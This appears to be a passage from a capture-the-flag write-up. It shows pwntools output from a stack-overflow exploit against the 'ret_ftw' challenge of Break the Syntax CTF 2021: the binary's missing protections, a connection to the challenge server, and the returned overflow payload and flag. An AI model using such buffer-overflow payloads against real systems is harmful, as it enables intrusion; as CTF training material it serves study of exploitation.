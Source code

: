 [*] '/fun/ctfs/break-the-syntax-ctf-2021/ret_ftw/for_player'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to ret.ch2.btsctf.pl on port 55125: Done
[+] Receiving all data: Done (146B)
[*] Closed connection to ret.ch2.btsctf.pl port 55125
b"Hey, what's your name?\nHi \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb6\x11@!\nCongratulations!\nGrab your flag!\nBtS-CTF{smash_da_stack_for_fun_and_flags}\n"

